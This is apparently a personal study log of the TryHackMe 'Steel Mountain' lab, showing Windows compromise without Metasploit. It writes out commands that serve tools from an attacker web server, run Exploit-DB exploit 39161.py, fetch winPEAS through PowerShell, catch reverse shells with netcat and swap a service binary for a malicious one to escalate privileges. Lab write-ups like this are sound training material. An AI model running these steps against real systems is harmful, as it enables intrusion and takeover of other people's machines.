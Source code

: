# TryHackMe: Complete Beginner

author:: Nathan Acks  
date:: 2021-11-08

## Steel Mountain

Things got busy yesterday and I had to push finishing this section off a day. The machine's new IP address is 10.10.174.199.

### Access and Escalation Without Metasploit

The alternate exploit we're going to run for this is located at /usr/share/exploitdb/exploits/windows/remote/39161.py on Kali Linux. To set this up, we're going to use a quick-n-dirty Python web server containing a statically-compiled version of netcat. This needs to be running on port 80 for the exploit to work (don't forget to punch a hole through the firewall for this!).

```bash
mkdir 1
cd 1
cp /usr/share/windows-binaries/nc.exe .
curl -O https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
sudo python3 -m http.server 80
```

Ready our listener in another terminal. Note that WinPEAS generates *a lot* of output, so we need to increase TMUX history buffer (`set -g history-limit 8192`) in order to be able to capture all of it. This needs to be set *before* creating the window that we're going to catch our reverse shell in!

```bash
nc -lvnp 4444
```

Copy, setup, and run the exploit!

```bash
cp /usr/share/exploitdb/exploits/windows/remote/39161.py .
nano 39161.py # Change ip_addr and local_port
python2 39161.py 10.10.174.199 8080
python2 39161.py 10.10.174.199 8080
```

Once we're in (the exploit needs to be run twice to work), we need to grab and run winPEASx64.exe from our web server.

```powershell
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/winPEASx64.exe -OutFile winPEASx64.exe"
.\winPEASx64.exe
```

Interestingly, while WinPEAS notes that ASCServie.exe is vulnerable to an overwrite, it looks like it misses the fact that the compromised user can restart it. That said, WinPEAS does display *a lot* more information than PowerUp, so it might be useful to run *both*...

Useful PowerShell commands:

* `Get-Service` - list all services, or drill down on a particular service.
* `sc stop $SERVICE`/`sc start $SERVICE` - stop/start $SERVICE.

Putting this all together, we can replicate yesterday's compromise by:

```powershell
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/ASCService.exe -OutFile ASCService.exe"
sc stop AdvancedSystemCareService9
copy "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
	ASCService.exe.bak
copy /Y ASCService.exe
	"C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
sc start AdvancedSystemCareService9
```

Where ASCService.exe is the same compromise as last time, and we again catch the reverse shell using:

```bash
nc -lvnp 4443
```

* [2021-11-07 - TryHackMe: Complete Beginner](2021-11-07-tryhackme-complete-beginner.md)

